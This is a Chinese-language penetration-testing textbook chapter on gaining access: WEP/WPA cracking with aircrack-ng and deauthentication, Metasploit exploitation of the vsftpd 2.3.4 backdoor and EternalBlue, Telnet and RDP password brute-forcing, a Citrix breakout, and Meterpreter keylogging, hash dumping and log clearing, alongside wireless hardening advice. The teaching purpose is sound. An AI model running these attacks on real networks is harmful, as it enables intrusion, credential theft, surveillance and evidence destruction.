# 第十三章：网络渗透测试 - 获取访问权限

获取对系统和网络的访问权限是渗透测试中最关键的阶段之一。这一阶段测试了渗透测试员的技能和目标系统和网络的安全控制。渗透测试员必须始终考虑他们可以利用各种安全漏洞来攻击目标的所有可能方式。

如果没有进入企业网络，你将无法进行任何形式的网络渗透和数据外泄。渗透测试的目的是模拟真实世界中具有恶意意图的真正黑客会执行的攻击。这意味着未经授权地进入企业网络并破坏系统。

作为一名即将成为网络安全专业人员/渗透测试员，你将学习如何破解无线网络，利用 Linux 和 Windows 操作系统，利用远程访问服务，并获取用户帐户凭据以访问系统和网络。此外，你还将学习有关保护无线网络免受网络威胁的各种对策。

在本章中，我们将涵盖以下主题：

+   获取访问权限

+   **有线等效隐私**（**WEP**）破解

+   **Wi-Fi Protected Access**（**WPA**）破解

+   保护您的无线网络

+   配置无线安全设置

+   利用脆弱的外围系统

+   渗透测试 Citrix 和基于**远程桌面协议**（**RDP**）的远程访问系统

+   PWN 盒和其他工具

+   绕过**网络访问控制**（**NAC**）

# 技术要求

要按照本章的说明进行操作，请确保满足以下硬件和软件要求：

+   Kali Linux

+   Windows 7

+   无线路由器

# 获取访问权限

渗透测试和道德黑客是一个令人兴奋的话题。每个人都总是兴奋地想要黑入另一个系统，无论是计算机还是无线网络。之前的章节侧重于在发动攻击之前对目标进行足够的情报收集。黑客和渗透测试的利用阶段有时可能会具有挑战性。

收集有关目标的尽可能多的细节非常重要。这样的背景工作有助于我们确定可以针对目标系统或网络发动的近似利用和有效载荷。有时，当你发动一个针对特定操作系统的利用时，它可能不起作用，这可能会令人沮丧。你可以采取的一种策略是针对网络上的低 hanging fruits——也就是尝试利用和获取对易受攻击的系统和设备的访问权限，这些系统和设备对 TCP/IP 协议易受攻击。

一个例子是我们在之前的章节中探讨过并用来通过 shell 界面进入目标的**vsftpd**服务。另一个例子是在 Windows 操作系统上发现的**EternalBlue**漏洞。在扫描阶段期间，一定要对目标网络上的所有设备进行全面的漏洞评估。

首先利用看起来最脆弱、因此易于利用的目标，然后转向那些不太脆弱、因此更难利用的目标。举个例子，想象一下参加笔试。试卷上有很多需要在规定时间内回答的具有挑战性的问题。在这种情况下，明智的做法是先回答较容易的问题，然后再回答更困难的问题。这样可以给你更多时间回答你更有可能答对的问题，并最大限度地提高你在考试中得分的机会。

渗透测试员可以应用许多方法和技术来获取对系统的访问权限，例如以下方法：

+   在线和离线密码破解

+   破解无线网络上的**预共享密钥**（**PSK**）

+   社会工程

+   执行**中间人**（**MITM**）攻击

+   对应用层协议执行暴力破解攻击

在获取访问权限阶段，渗透测试人员通常执行各种类型的攻击，以帮助他们进入网络。通常，您首先执行在线或离线密码破解。一旦获得有效的用户名和密码，下一步就是访问受害者的系统并提升用户权限。获得更高级别的用户权限将允许在受损机器上执行任何应用程序和任务。隐藏文件，如恶意代码，旨在确保创建隐藏的后门，并且已经植入逻辑炸弹（一种包含一组由用户操作触发的指令的病毒）。最后，在断开与受损机器的连接时，总是明智地掩盖您的踪迹。掩盖您的踪迹是渗透测试的最后阶段，重点是删除任何表明攻击者曾在系统或网络上出现的日志文件和证据。

以下是获得系统访问权限的典型流程图：



在接下来的章节中，我们将看看我们可以使用的各种方法，以便进入目标系统。

# WEP 破解

通过使用无线网络，具有 IEEE 802.11 兼容设备（如笔记本电脑）的用户可以连接到无线接入点。这将使他们能够访问本地网络上的资源，就像他们使用有线连接时一样。无线网络为用户提供了很多便利，无论是在家中还是在企业环境中。

默认情况下，无线网络是开放的，因此允许任何具有笔记本电脑或智能手机的人建立连接。这引发了用户隐私和安全方面的担忧。WEP 加密标准在无线网络的早期发展阶段被使用，并且仍然被家庭用户和 IT 管理员实施。

WEP 加密标准使用**Rivest Cipher 4**（**RC4**）加密密码，用于数据加密的**40 位密钥**。在开发时，这被认为是非常安全的，但到了 2002 年，标准中发现了多个安全漏洞。攻击者可以在几小时内获得加密密钥。使用 40 位密钥，攻击者可以非常快速地捕获和解密流量，这损害了 WEP 加密标准的机密性。在现代密码标准中，使用更大的加密密钥以防止对数据加密的此类攻击。

作为攻击性安全领域的网络安全专业人员，了解在使用 Kali Linux 执行 WEP 破解时应用的技术是很重要的。

执行以下步骤来完成此操作：

1.  使用以下命令在无线适配器上启用监视模式：

```
airmon-ng check kill airmon-ng start wlan0
```

1.  在附近的接入点上执行无线嗅探，直到发现目标：

```
airodump-ng wlan0mon
```

找到目标后，记下其 BSSID、频道和 ESSID 值。

1.  在获取详细信息后，使用键盘上的*Ctrl* + *C*停止`airodump-ng`，然后继续下一步。

1.  尝试捕获目标无线网络的数据包：

```
airodump-ng --bssid <target BSSID value> -c <channel #> wlan0mon -w <output file>
```

让我们看看一些这些命令的作用：

+   +   `--bssid`：允许您通过使用其 BSSID 值（接入点的媒体访问控制地址）指定特定接入点

+   `-c`：允许您设置无线电，使其监听特定频道

+   `-w`：特定于输出位置和文件名

1.  对目标执行去认证攻击。

对目标接入点执行去认证攻击将迫使任何连接的客户端取消关联。一旦客户端断开连接，它们将自动尝试重新连接到接入点。通过这样做，您正在尝试在客户端尝试重新认证时捕获 WEP 密钥：

```
aireplay-ng -0 0 -a <target's bssid> wlan0mon
```

当您捕获到 WEP 密钥（您将在运行`airodump-ng`的窗口上看到通知）时，您可以停止去认证攻击。

1.  接下来，让我们尝试破解 WEP 并检索秘钥。

一旦您在目标无线网络上捕获了足够的数据，请停止`airodump-ng`。在终端上使用`ls -l`命令，您会看到一个`.cap`文件。在新的终端窗口中，执行以下命令：

```
aircrack-ng -b <bssid of the access point> output_file.cap
```

此外，您可以使用以下简单命令来实现相同的任务：

```
aircrack-ng output_file.cap
```

以下屏幕截图是预期输出的示例：


但是，您的 WEP 密钥将根据无线接入点的管理员设置的值而有所不同。输出密钥以十六进制格式给出，因此您现在可以使用这个基于十六进制的密钥来访问目标接入点。

完成本节后，您现在可以对无线网络执行 WEP 破解。在下一节中，我们将深入探讨如何执行 WPA 破解技术。

# WPA 破解

鉴于 WEP 中发现的安全漏洞，WPA 于 2002 年作为 IEEE 802.11 网络的改进无线安全标准而创建。WPA 使用**临时密钥完整性协议**（**TKIP**），该协议应用 RC4 加密密码套件，用于无线接入点和客户设备之间的数据隐私。

此外，**Wi-Fi 保护访问 2**（**WPA2**）后来被开发用于解决其前身的安全漏洞。WPA2 使用**高级加密标准**（**AES**）进行数据加密，而不是 RC4 密码。此外，WPA2 实施了**计数器模式与密码块链接消息认证码协议**（**CCMP**），取代了 TKIP。

现在，让我们进入有趣的部分，破解 WPA 以进入目标无线网络：

1.  在无线适配器上启用监视模式：

```
airmon-ng check kill airmon-ng start wlan0
```

1.  对附近的接入点进行无线嗅探，直到发现您的目标：

```
airodump-ng wlan0mon
```

一旦找到目标，请记下其 BSSID、信道和 ESSID 值。在获取详细信息后停止`airodump-ng`，然后继续下一步。

1.  尝试捕获目标无线网络的数据包：

```
airodump-ng --bssid <target BSSID value> -c <channel #> wlan0mon -w <output file>
```

1.  对目标进行去认证攻击。

对目标接入点进行去认证攻击将强制任何连接的客户端取消关联。一旦客户端断开连接，它们将自动尝试重新连接到接入点。通过这样做，您正在尝试在客户端尝试重新认证时捕获 WEP 密钥：

```
aireplay-ng -0 0 -a <target's bssid> wlan0mon
```

当您捕获到 WPA 握手时，如下面的屏幕截图所示，您可以停止去认证攻击：


使用*Ctrl* + *C*停止去认证攻击，并继续下一步。

1.  要破解 WPA，我们将使用一个字典列表。使用**crunch**，您可以生成自己的自定义密码字典列表。此外，以下是 Kali Linux 上已预安装的各种字典列表的位置：


一旦找到合适的字典列表，我们可以使用`aircrack-ng`工具和`-w`参数指定我们选择的字典列表。

1.  要开始 WPA 的密码破解，请使用以下命令：

```
aircrack-ng output_file.cap -w <wordlist>
```

`aircrack-ng`将尝试使用特定字典攻击列表，并在找到**密钥**时停止，如下面的屏幕截图所示：



有时，字典列表可能不包含密码，结果可能不尽人意。使用**crunch**工具创建自定义字典列表，或尝试使用`SecLists` GitHub 存储库中的字典列表[`github.com/danielmiessler/SecLists`](https://github.com/danielmiessler/SecLists)。

现在您已经完成了关于破解无线安全的部分，让我们来看看下一节，它涵盖了如何保护您的无线网络免受网络攻击。

# 保护您的网络免受上述攻击

正如您在上一节中看到的，渗透测试人员或恶意黑客可以尝试黑客入侵您的无线网络并获取秘钥（密码）。无论您是一名学生正在学习计算机安全课程，还是一名 IT 专业人士，或者只是一个爱好者，本节涵盖的主题是一些可以用来保护您的网络免受此类攻击的方法和技术。

在接下来的章节中，我们将涵盖以下主题：

+   SSID 管理

+   MAC 过滤

+   天线的功率级别

+   强密码

+   保护企业无线网络

让我们开始吧！

# SSID 管理

购买新的接入点或无线路由器时，默认的服务集标识符（SSID）通常是制造商的名称。例如，新 Linksys 接入点的默认 SSID（无线网络名称）将包含`Linksys`作为其 SSID。许多制造商这样做是为了帮助用户在设置新接入点时快速识别他们的无线网络。然而，许多个人和组织使用默认的 SSID。

保持默认的 SSID 不变可能会带来安全问题。假设您为家庭或组织获得了一个新的 Linksys 接入点，并且在设置过程中决定保持设备 SSID 的默认配置。单词`Linksys`将成为网络名称的一部分。作为进行附近接入点无线扫描的渗透测试人员，看到制造商的名称可以帮助对设备进行概括，并研究`Linksys` AP 的特定漏洞。

想象一下在扫描无线接入点时看到`Netgear`这个词。您可以简单地搜索一下这个特定品牌已知的安全漏洞和配置错误的列表，如下图所示：



简而言之，您不应该使用任何可能吸引黑客或泄露接入点和组织身份的名称。我经常看到公司使用他们的组织名称创建 SSID，并且有时将 SSID 的目的作为名称的一部分。

一个例子是使用名称`CompanyName_Admin`。任何进行任何无线安全审计的渗透测试人员最初都会针对这样的网络。

隐藏 SSID 是一个好的做法，但仍然可以使用无线嗅探技术（如`airodump-ng`）来发现，正如前面的章节中所概述的。此外，在基于 Windows 的系统上，您可以使用 NetStumbler（[www.netstumbler.com](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwidnMDXmfjiAhVFTd8KHTPZAS8QFjAAegQIABAB&url=http%3A%2F%2Fwww.netstumbler.com%2Fdownloads%2F&usg=AOvVaw1txhDBmLy67I3rlfCDYpX8)）和 inSSIDer（[`www.metageek.com/products/inssider/`](https://www.metageek.com/products/inssider/)）。

在下一节中，我们将讨论无线网络上 MAC 过滤的目的。

# MAC 过滤

每个受控接入点及其无线路由器为连接设备提供基本类型的访问控制。在接入点上启用 MAC 过滤允许您指定允许和禁止连接到接入点的设备的列表。然而，有一些技术，所有这些都在前一章中涵盖过，允许渗透测试人员捕获授权设备的列表（它们的 MAC 地址）并执行欺骗以获取未经授权的访问。然而，仍应应用此功能，因为在您的网络上有某种安全性总比没有安全性要好。

在下一节中，我们将介绍天线功率级别的概念。

# 天线功率级别

一些接入点在其操作系统或固件中具有一个功能，允许您手动调整天线的功率级别。通过降低天线的功率级别，无线信号的广播范围将减小。将功率级别设置为 100%将确保信号具有最大覆盖范围。如果您担心其他人能够在无线网络上看到并拦截您的数据，这个功能可能会很有用。

现在我们了解了功率级别在天线上的作用，接下来我们将介绍创建强密码的基本要点。

# 强密码

破解用户密码通常取决于密码本身的复杂性。许多用户倾向于在其设备上设置简单易记的口令，特别是在无线网络上。然而，复杂的密码会给渗透测试人员或黑客带来困难。复杂密码具有以下特点：

+   它们包含大写字符

+   它们包含小写字符

+   它们包含数字

+   它们包含特定符号

+   它们的长度超过 12 个字符

+   它们不包含姓名

+   它们不包含出生日期

+   它们不包含车辆的车牌号码

以下是由**LastPass**（[www.lastpass.com](http://www.lastpass.com)）生成的复杂密码的示例：



目的是确保没有人能够轻易猜测或破坏您的密码。如果恶意用户能够破坏另一个人的用户凭据，攻击者可以对受害者的网络和/或个人生活造成严重破坏。

在接下来的部分，我们将描述可以在企业网络上实施的技术，以改善其安全状况。

# 保护企业无线网络

企业无线网络应该使用以下技术来减少无线网络攻击的风险：

+   在组织拥有和管理的每个无线网络上实施**无线入侵防范系统**（**WIPS**）。

+   确保所有有线和无线设备都安装了最新的固件和补丁。

+   确保设备和配置符合**国家标准和技术研究所**（**NIST**）的要求。查看 NIST 框架中的*建立无线强大安全网络*部分，了解更多信息：[`csrc.nist.gov/publications/detail/sp/800-97/final`](https://csrc.nist.gov/publications/detail/sp/800-97/final)

+   尽可能实施多因素身份验证来访问企业网络。

+   实施**可扩展认证协议**（**EAP**）—**传输层安全**（**TLS**）基于证书的方法，以确保无线通信的机密性和真实性。

+   使用带有 AES 加密的 WPA2-企业版。

+   实施一个独立的访客无线网络。

实施这些技术和控制措施可以帮助减少企业网络上的安全风险。在接下来的部分，我们将介绍配置和保护无线网络所需遵循的步骤。

# 配置无线安全设置以保护您的网络

在本节中，我们将讨论如何在接入点和无线路由器上配置无线安全功能，以便您可以保护您的网络。

在这个练习中，我使用的是 Linksys EA6350 无线路由器。请注意，所有无线路由器和接入点在其管理界面中具有相同的功能；但是，每个制造商和设备的**图形用户界面**（**GUI**）可能会有所不同。

让我们开始吧！

1.  您需要登录您的接入点或无线路由器。

1.  登录后，点击用户界面中的**无线**选项卡。在这里，您可以更改网络名称（SSID），设置复杂密码，设置安全模式，并广播 SSID，如下图所示：



使用以下准则将有助于提高无线网络的安全性：

+   +   将 SSID（网络名称）更改为不会引起注意的内容。

+   隐藏（广播）SSID。

+   创建一个复杂的密码。如果遇到困难，请尝试使用在线密码生成器。

每个现代接入点和无线路由器都允许使用各种安全模式，例如以下内容：

+   +   **无**：禁用认证。

+   **WEP**：使用 WEP 加密标准。

+   **WPA 个人**：使用 WPA 加密标准，并允许您在接入点上设置**预共享密钥**（**PSK**）。因此，任何需要访问无线网络的设备都需要提供 PSK。

+   **WPA 企业**：此模式应用 WPA 加密标准，但请注意，接入点将用户凭据存储在 WPA 个人中。WPA 企业查询中央**认证、授权和计费**（**AAA**）服务器，以验证用户在无线网络上的访问。

+   **WPA2 个人**：使用 WPA2 加密标准。

+   **WPA2 企业**：使用 WPA2 加密标准与 AAA 服务器。

您可以选择禁用 SSID 广播以隐藏您的网络。

1.  接下来，您应该看到另一个子选项卡，允许您配置**MAC 过滤**。

1.  启用 MAC 过滤功能。一旦启用，您将有选项将 MAC 地址添加到允许或拒绝列表中，如下面的屏幕截图所示：



1.  最后，禁用**Wi-Fi Protected Setup**功能，如下面的屏幕截图所示：



WPS 存在已知的安全漏洞，不应在安全环境中使用。

完成了这个练习，现在您可以配置和设置无线网络。在下一节中，我们将看看如何利用外围系统的基本要点。

# 利用 Metasploit 攻击易受攻击的外围系统

在网络上利用目标系统有时可能是一项具有挑战性的任务。利用程序只是设计用来利用安全漏洞（弱点）的代码片段。在第五章中，*被动信息收集*，第六章中，*主动信息收集*，和第七章中，*使用漏洞扫描器*，我们深入研究了使用各种工具如 Nmap 和 Nessus 在目标系统中建立安全漏洞。在本节中，我们将利用迄今为止已经开发的信息和技能，并使用 Metasploit 框架进行利用。

在本练习中，我们将使用我们的 Kali Linux 机器作为攻击者，Metasploitable 机器作为目标。让我们开始吧：

1.  让我们使用 Nmap 对目标进行**服务版本扫描**。这将帮助我们确定正在运行的端口、协议和服务版本。执行**`nmap -sV <目标 IP 地址>`**命令：


正如我们所看到的，目标上有许多服务。

1.  通过启用**PostgreSQL**数据库服务来启动**Metasploit**框架。然后，在终端窗口内初始化 Metasploit 框架并执行以下命令：

```
service postgresql start msfconsole
```

Metasploit 框架应该需要一两分钟来初始化。当准备好时，您将看到一个有趣的欢迎横幅和**命令行界面**（**CLI**）。

根据我们的 Nmap 结果，端口`21`是开放的，并且正在运行**文件传输协议**（**FTP**）。通过执行服务版本扫描，我们能够确定它是否正在运行**vsftpd 2.3.4**守护程序。在您的 Metasploit 界面上，您可以使用`search`命令，后跟关键字或字符串，搜索模块（扫描程序，利用程序等）。

1.  在您的 Metasploit 控制台上，通过运行以下命令搜索任何有用的模块，以帮助我们破坏目标机器上的 FTP 服务器：

```
search vsftpd
```

1.  Metasploit 将为我们提供符合搜索条件的结果列表。您应该看到控制台返回一个名为`vsftpd_234_backdoor`的基于 Unix 的利用。要在我们的目标上使用此利用，使用以下一系列命令：

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.100 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

在我的实验室环境中，目标使用`10.10.10.100` IP 地址。在设置`RHOSTS`（远程主机）值之前，请确保验证目标设备的 IP 地址。此外，许多模块将要求您设置远程目标。您可以使用`setg`命令全局设置目标。

1.  执行`exploit`命令。Metasploit 将尝试将利用代码推送到目标。一旦成功，将创建一个 shell。shell 允许我们从攻击者机器上远程执行命令到目标上，如下图所示：


1.  在这一点上，任何在控制台上执行的命令都将在目标上执行。执行`uname -a`命令来验证并打印系统信息：


通常，在对公共和内部系统进行简单的端口扫描时，端口`23`通常是用于远程管理的开放端口。但是，端口`23`是 Telnet 协议使用的默认端口。Telnet 是一种不安全的协议，允许用户通过网络远程访问计算机，并且所有通过用户之间传递的流量都是未加密的。任何启用 Telnet 的设备都容易受到中间人攻击，攻击者可以轻松捕获用户凭据。

1.  让我们使用`search`命令查找一个有用的模块，以检查 Telnet 启用设备上的有效用户凭据。首先，使用以下命令：

```
search telnet
```

1.  通常，将与搜索条件相符的结果列表呈现在控制台上。在这个练习中，我们将使用特定的扫描程序来检查验证的用户帐户：

```
msf5 > use auxiliary/scanner/telnet/telnet_login
```

1.  接下来，设置您的远程主机：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set RHOSTS 10.10.10.100
```

1.  如果您有包含不同用户名的单词列表，请使用以下命令（指定文件路径）：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set USER_FILE <username word list>
```

如果您有密码列表，可以选择使用以下命令：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set PASS_FILE <wordlist>
```

1.  但是，如果您没有任何单词列表，也没关系。您可以使用以下命令指定单个用户名和密码：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set USERNAME uname msf5 auxiliary(scanner/telnet/telnetlogin) > set PASSWORD word
```

1.  完成后，使用`run`命令执行`auxiliary`模块：

```
 msf5 auxiliary(scanner/telnet/telnetlogin) > run 
```

确保等待几秒钟让扫描器启动。有时，您不会立即在屏幕上看到结果出现。

我们使用`run`命令执行`auxiliary`模块，使用`exploit`命令在 Metasploit 中执行利用。

以下屏幕截图表明找到了有效的用户名和密码：


正如我们已经提到的，您可以使用**crunch**生成符合您喜好的自定义单词列表。此外，在 Kali Linux 的`/usr/share`目录中有一组单词列表：


请记住，在进行密码攻击或尝试发现有效的用户凭据时，任务可能非常耗时，而且可能并不总是对您有利。然而，这说明了渗透测试中侦察（信息收集）阶段的重要性。我们能够收集有关目标的更多细节，我们就能够将广泛的攻击范围缩小到特定系统或网络基础设施的特定攻击。

接下来，我们将尝试利用并访问目标系统，即 Microsoft Windows。

# 永恒之蓝利用

让我们尝试利用 Windows 系统并获取 shell。对于这个练习，可以使用 Windows 7、8、8.1 或 10 操作系统作为目标/受害机器。以下是我实验室拓扑的图表，显示了攻击者和受害者机器的 IP 分配：


如果您的 IP 方案不同，请确保在继续之前记录每台机器的 IP 地址，因为您将需要它们。让我们开始吧：

1.  首先，让我们尝试在目标 Windows 系统上运行漏洞扫描。以下代码片段是使用`nmap --script vuln 10.10.10.19`命令的结果：



突出显示的区域表明我们的目标对于 Microsoft 安全公告 ID `ms17-010`，也就是**EternalBlue**，存在远程代码执行攻击的漏洞。对这个漏洞的进一步研究告诉我们，目标容易受到 WannaCry、Petya 和其他恶意软件的利用。

EternalBlue 漏洞允许攻击者对 Microsoft SMBv1 服务器执行远程代码执行。

1.  在**Metasploit Framework**（**MSF**）控制台中，使用`search ms17-010`命令来过滤 EternalBlue 漏洞的结果，如下面的屏幕截图所示：



1.  MSF 控制台返回了一些结果。我们将使用`ms-17-010_eternalblue`漏洞和**Meterpreter 反向 TCP 有效载荷**来尝试从受害者的机器返回到我们的攻击者机器的反向连接（反向 shell）。为了完成这个任务，使用以下命令，如下面的屏幕截图所示：


1.  执行漏洞利用后，您现在将拥有一个`meterpreter` shell。`meterpreter` shell 将允许您在攻击者机器和受害者操作系统之间无缝通信。

根据 SANS（[www.sans.org](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=2&cad=rja&uact=8&ved=2ahUKEwjjwcul2N3iAhUpTt8KHZ-9CJUQFjABegQICxAE&url=https%3A%2F%2Fwww.sans.org%2Fsecurity-resources%2Fsec560%2Fmisc_tools_sheet_v1.pdf&usg=AOvVaw0RrqNTtD6wrNTYHi-YFz2N))，Meterpreter 是 Metasploit 框架中的有效载荷，它通过作为已加载到目标机器上的任何进程内的 DLL 来运行，从而对被利用的目标系统进行控制。

使用`hashdump`命令，您将能够检索受害者机器上所有本地存储的用户帐户的密码哈希：


帐户的用户名始终以明文显示，如前面的屏幕截图所示。

在 Meterpreter 中的`hashdump`命令用于检索 Windows 系统中的用户帐户。用户帐户由三个组件组成：**安全 ID**（**SID**）、用户名和密码。密码被转换为 NTLM 哈希并存储在较新版本的 Windows 中。在较旧版本的 Windows 中，如 Windows XP，密码使用**LAN Manager**（**LM**）存储。因此，Windows 操作系统实际上从不存储用户帐户的密码；它存储哈希值。

以下是我们可以在`meterpreter` shell 中使用的一些有用的命令：

+   +   `screenshot`：捕获受害者桌面的屏幕截图

+   `getsystem`：尝试提升目标的特权

+   `clearev`：清除事件日志

+   `sysinfo`：收集有关目标的信息

1.  要在受害者的机器上获取 shell，请键入`shell`并按*Enter*：



现在您将在 Kali Linux 机器上拥有 Windows 命令提示符界面。现在您将能够远程执行 Windows 命令。

现在我们已经简要介绍了利用，让我们使用远程访问系统获取访问权限。

# 渗透测试 Citrix 和基于 RDP 的远程访问系统

在本节中，我们将研究在大多数 IT 环境中执行对两种流行的远程访问系统 Citrix 和 Microsoft 的**远程桌面协议**（**RDP**）的渗透测试。

让我们深入研究 Citrix 和 RDP 的渗透测试和获取访问权限。

# Citrix 渗透测试

我们中的大多数人可能已经听说过 Microsoft 的 RDP，它允许用户在网络中远程访问另一台 Windows 机器，并提供了一个**图形用户界面**（**GUI**）。Citrix 就像 RDP，但在性能方面更好，同时提供交互式用户界面。

许多组织使用 Citrix 服务和产品有效地在组织内分发对应用程序的访问。使用 Citrix 的一个例子是在组织的私人数据中心内运行应用程序。使用 Citrix，IT 管理员可以为这些应用程序的用户提供访问权限。每个用户都需要一个现代的 Web 浏览器来访问虚拟桌面界面或在数据中心中集中访问应用程序。这种方法消除了在每个员工的计算机上安装软件应用程序的需要。让我们开始吧：

1.  我们可以使用 Nmap NSE 脚本`citrix-enum-apps`来发现和提取应用程序。以下是在 Nmap 中使用脚本的示例：

```
nmap -sU --script citrix-enum-apps <citrix server IP address>
```

1.  此外，您可以指定`-p 1604`，因为 Citrix WinFrame 使用 TCP 和 UDP 端口`1604`。

1.  找到 Citrix 机器后，您可以尝试使用以下 URL 登录以连接到发布的应用程序：

```
http://<server IP>/lan/auth/login.aspx
```

1.  登录后，单击一个应用程序以下载`launch.ica`文件到您的桌面。下载完成后，使用记事本或其他文本编辑器打开文件。

1.  寻找一个名为`InitialProgram`的参数，指向`LIFE UAT`应用程序。将参数更改为`InitialProgram=explorer.exe`并保存文件。

1.  双击新保存的文件以打开 Citrix 服务器的资源管理器。这将使我们能够读取`lan/auth/login.aspx`文件和其他敏感文件。

1.  一旦你有了 Citrix 终端，环境可能会受限（空白屏幕）。打开**任务管理器**，然后单击**文件** | **新任务**。新任务窗口将打开。输入`explorer.exe`，然后单击**确定**。

1.  在 Windows 资源管理器中，导航到包含所有`.aspx`文件的目录，以确认您位于 Citrix 服务器上。

这种技术允许用户跳出**Citrix**虚拟化环境。在下一节中，我们将对 Microsoft RDP 执行渗透测试并尝试获取访问权限。

现在您已经完成了本节，让我们尝试利用企业环境中最流行的远程访问服务之一，Microsoft 的 RDP。

# RDP 入侵

Microsoft 的 RDP 为用户提供了一个图形界面，用于在网络上与基于 Windows 的系统建立连接。很多时候，系统管理员在组织中的客户端和服务器机器上启用 RDP 服务，以便轻松访问。启用设备上的 RDP 后，系统管理员无需亲自前往系统的地理位置来检查其配置或对操作系统进行调整。他们只需使用 RDP 登录即可。这种协议使 IT 专业人员的工作变得更加简单和高效。

该协议是为远程访问而设计的。但是，作为渗透测试人员，我们可以利用启用了 RDP 的系统，尝试发现目标系统的有效用户凭据。让我们开始吧：

1.  首先，我们可以使用 Nmap 扫描网络，同时搜索启用了 RDP 的任何设备。Windows 上的 RDP 使用端口`3389`，因此我们可以使用以下 Nmap 命令来扫描目标：

```
nmap -p 3389 -sV <target IP address>
```

以下屏幕截图显示了一个打开端口`3389`并运行`Microsoft Terminal Services`的系统：


1.  现在我们已经找到了一个合适的目标，我们可以对活动目标进行字典攻击。使用**Ncrack**（一种离线密码破解工具），我们可以使用可能的用户名列表（`usernames.txt`）和密码列表（`custom_list.txt`），如下面的屏幕截图所示：



以下是在前面片段中使用的每个开关的描述：

+   +   `-v`：增加终端输出的详细程度。

+   `-T (0-5)`：调整攻击的时间。数字越大，攻击速度越快。

+   `-U`：允许您指定用户名列表。

+   `--user`：允许您指定用户名，每个用逗号分隔。

+   `-P`：允许您指定密码列表。

+   `--pass`：允许您指定密码，每个用逗号分隔。

+   `service://host`：Ncrack 使用此格式来指定服务和目标设备。

正如您所看到的，**Ncrack**能够找到目标（`10.10.10.19`）的有效用户名和密码组合。因此，一旦获得了用户的凭据，现在就可以简单地利用它们来使我们受益。

1.  在这一点上，一旦您获得了有效的用户帐户，下一步就是实际登录到目标系统，使用您在目标系统上找到的 RDP 和其他网络服务（Telnet、SSH、VNC 等）。

另一个**在线密码破解**工具我们可以使用是**Hydra**。要使用 Hydra 执行与 Ncrack 相同的任务，可以执行以下命令：

```
hydra -V -f -L usernames.txt -P custom_list.txt rdp://10.10.10.19
```

请注意，Hydra 中的 RDP 模块可能无法在现代 Windows 版本上工作。有关 Hydra 的更多信息，请访问其官方 GitHub 存储库[`github.com/vanhauser-thc/thc-hydra`](https://github.com/vanhauser-thc/thc-hydra)。

在**Metasploit**中收到`meterpreter` shell 后，以下是一些有用的命令，可以帮助您捕获按键和受害者的屏幕：

+   `screenshare`：此命令用于实时观看远程受害者的桌面。

+   `screenshot`：拍摄受害者的桌面照片。

+   `keyscan_start`：使用 Meterpreter 开始键盘记录。

+   `keyscan_stop`：停止键盘记录。

+   `keyscan_dump`：生成捕获的按键的转储。

以下屏幕截图显示了在 Meterpreter 中执行`screenshare`命令后，受害者桌面的实时视图：



正如您所看到的，一旦真正的黑客进入网络或系统，他们可以做的事情是相当可怕的。

您现在可以检测和利用 Windows 操作系统中的 EternalBlue 漏洞。接下来，我们将看看如何利用用户凭据来使我们受益。

# 利用用户凭据

现在我们已经为目标 Microsoft Windows 系统获得了用户凭据，让我们尝试远程连接。在这个练习中，我们将使用已经预先安装在 Kali Linux 中的**rdesktop**客户端。让我们开始：

**rdesktop**是一种用于远程管理的开源协议，类似于 Microsoft 的 RDP。

1.  要使用 rdesktop，请打开一个新的终端窗口，并使用以下语法：

```
rdesktop -u <username> -p <password> <target's IP address>
```

以下片段是使用 rdesktop 工具的示例，包括所有必要的细节：


1.  一旦您执行了命令，rdesktop 将尝试与目标设备建立远程连接。一旦成功，rdesktop 将提供一个新窗口，显示目标的用户界面，如下面的屏幕截图所示：



在这一点上，我们已经成功进入了目标操作系统，并对其进行了控制。

如果您的攻击者系统没有 rdesktop 工具，可以在其官方 GitHub 存储库找到：[`github.com/rdesktop/rdesktop`](https://github.com/rdesktop/rdesktop)。有关 rdesktop 的更多信息，请访问其官方网站[www.rdesktop.org](http://www.rdesktop.org)。

正如您所看到的，我们可以简单地使用 Kali Linux 中的本机工具和受害者的凭据来在渗透测试期间访问资源、系统和网络。在下一节中，我们将深入探讨网络植入物。

# 直接将 PWN 盒和其他工具插入网络

渗透测试人员经常倾向于在组织的网络中放置一个微小的特殊盒子。这些被称为网络植入物，有时也被称为 PWN 盒。网络植入物允许攻击者通过连接到植入工具来建立从互联网到企业网络的连接，如下面的屏幕截图所示：


以下是一个可以插入以拦截网络流量的网络植入物的照片。这个设备能够捕获实时数据包并将它们存储在 USB 闪存驱动器上。它具有远程访问功能，可以允许渗透测试人员或系统管理员远程访问设备，从而允许用户在网络上远程执行各种任务。这个小设备被称为**Packet Squirrel**，由 Hak5 创建：



此外，还有另一种看起来像 USB 以太网适配器的设备。这个所谓的以太网适配器也是另一种网络植入物，可以让渗透测试人员远程访问网络并执行各种任务，如扫描、利用和攻击枢纽。这个小设备被称为**LAN Turtle**，又是 Hak5 生产的另一件令人惊叹的装备：


在过去的几年里，**Raspberry Pi**（[www.raspberrypi.org](http://www.raspberrypi.org)）被引入到计算机世界。今天，许多机构、组织和家庭都在许多项目中使用 Raspberry Pi，从学习、编程到家庭安全监控系统。这个信用卡大小的小型计算机有无限的可能性：



然而，目前有许多操作系统可用于 Raspberry Pi，其中之一是 Kali Linux ARM 镜像（[`www.offensive-security.com/kali-linux-arm-images/`](https://www.offensive-security.com/kali-linux-arm-images/)）。想象一下将 Kali Linux 加载到这个便携设备中，将其植入到组织的网络中，并设置远程访问的可能性。如果这种情况是由真正的攻击者实施的，结果将是严重的，但渗透测试人员可以通过向客户展示他们对内部网络发起的攻击有多么脆弱来帮助他们很多。

有很多设备和小工具可以促进渗透测试，可能性是无限的。在下一节中，我们将介绍 NAC 的基础知识。

# 绕过 NAC

NAC 是一个旨在控制访问和确保合规性的系统。它使用一套过程和技术，专注于控制谁和什么能够访问网络及其资源。NAC 通过授权符合一定合规标准的设备在企业网络上运行来实现这一点。

